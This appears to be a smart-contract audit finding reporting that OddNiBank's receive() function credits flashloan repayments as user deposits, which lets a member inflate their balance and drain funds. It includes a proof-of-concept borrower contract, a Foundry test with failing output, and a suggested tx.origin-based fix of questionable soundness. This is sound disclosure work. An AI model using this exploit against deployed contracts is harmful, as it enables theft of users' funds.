 # [H-02] `OddNiBank::receive` have unintended effect in `assetInvested` when user payback `OddNiBank::flashloan` transaction

## Submitter

[goenawansan](https://github.com/Hachiko66)

## Summary

`receive` function wrongly update `assetInvested` when user payback `flashloan` transaction.
because the ether that user payback is not the user's asset, but the flashloan contract's asset, this would lead to unintended effect in `assetInvested` value.

## Vulnerability Details

by doing `flashloan` as a member, the user can borrow the asset from the contract and payback the asset to the contract.
the `receive` function will be called when the user payback the asset to the contract, and the `assetInvested` will be updated with the asset that the user payback.

this is because the `receive` does not differentiate whether the ether sent to `OddNiBank` address is from `flashloan` or not

`OddNiBank.sol`:

```js
    receive() external payable{
        if (!isMember[msg.sender]) {
            revert NotMember();
        }
@>      assetInvested[msg.sender] += msg.value;
    }
```

add the following file to `test` folder:
`LoanBorrower.sol`:

```js

// SPDX-License-Identifier: MIT

pragma solidity 0.8.28;

import {OddNiBank} from "../src/OddNiBank.sol";


contract LoanBorrower {
    OddNiBank public bank;

    constructor(address payable _bank) {
        bank = OddNiBank(_bank);
    }

    receive() external payable {
        (bool success, ) = address(bank).call{value: msg.value}("");
        require(success, "Return Ether failed");
    }

    function executeFlashloan(uint256 _amount) external {
        bank.flashloan(_amount);
    }

}

```

add the following code to `OddniOverall.t.sol`

import the `LoanBorrower` contract:

```diff

// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.28;

import "../src/OddNiBank.sol";
import "../src/OddNiBenefit.sol";
// import "../src/attek.sol";
import {Test, console} from "forge-std/Test.sol";
+ import {LoanBorrower} from "./LoanBorrower.sol";

```

add the following test to `OddniOverall.t.sol`:

```js
    function testFlashloanByContractStateChangers() public {
        LoanBorrower loanBorrower = new LoanBorrower(payable(address(OBA)));
        vm.deal(address(loanBorrower), 10 ether);
        vm.prank(address(loanBorrower));
        OBA.registerAsMember();

        vm.prank(address(loanBorrower));
        OBA.depositAsset{value: 2 ether}();

        uint256 borrowerBalanceBefore = address(loanBorrower).balance;

        uint256 loanAmount = 1 ether;
        uint256 balanceBefore = address(OBA).balance;

        loanBorrower.executeFlashloan(loanAmount);
        uint256 balanceAfter = address(OBA).balance;
        assertEq(
            balanceBefore,
            balanceAfter,
            "Contract balance did not return to the original amount!"
        );

        bool lockState = OBA.reentrancyLock();
        assertEq(
            lockState,
            false,
            "Reentrancy lock Should be false after flashloan"
        );

        uint256 contractBankBalanceAfter = address(OBA).balance;
        assertEq(
            balanceBefore,
            contractBankBalanceAfter,
            "Contract Balance should match"
        );

        // make sure member balance not change
        uint256 memberBalanceAfter = address(loanBorrower).balance;
        assertEq(
            borrowerBalanceBefore,
            memberBalanceAfter,
            "Member balance should not change"
        );

        uint256 contractassetInvestedAfter = OBA.getDepositedAmount(
            address(loanBorrower)
        );
        assertEq(
            contractassetInvestedAfter,
            2 ether,
            "Asset Invested Should Remain Unchanged"
        );

        bool contractBonusStatus = OBA.bonusTaken(address(loanBorrower));
        assertEq(contractBonusStatus, false, "Bonus Should Remain Unchanged");
        bool ContractmemberStatus = OBA.getMemberStatus(address(loanBorrower));
        assertEq(
            ContractmemberStatus,
            true,
            "Member Status Should Remain unchanged"
        );
    }

```

then run `forge test --mt testFlashloanByContractStateChangers` the test would FAIL:

```bash
Ran 1 test suite in 896.33ms (103.64ms CPU time): 0 tests passed, 1 failed, 0 skipped (1 total tests)

Failing tests:
Encountered 1 failing test in test/OddniOverall.t.sol:OddNiOverallTest
[FAIL: Asset Invested Should Remain Unchanged: 3000000000000000000 != 2000000000000000000] testFlashloanByContractStateChangers() (gas: 254512)

```

because the `assetInvested` should not be updated when the user payback the asset from `flashloan` transaction, as this ether is not deposited by the user.

## Impact

contract balance can be drained by user that do `flashloan` and then call `withdrawAsset` by any amount/max amount inside the contract.

## Tools Used

foundry

## Recommendations

add a check to differentiate whether the ether sent to `OddNiBank` address is from `flashloan` or not
this can be achieved by:

```diff
diff --git a/src/OddNiBank.sol b/src/OddNiBank.sol
index c9b6d40..8b7715e 100644
--- a/src/OddNiBank.sol
+++ b/src/OddNiBank.sol

@@ -115,7 +116,11 @@ contract OddNiBank{
         if (!isMember[msg.sender]) {
             revert NotMember();
         }
+        if (msg.sender != tx.origin) {
+            return;
+        }
         assetInvested[msg.sender] += msg.value;
     }

```
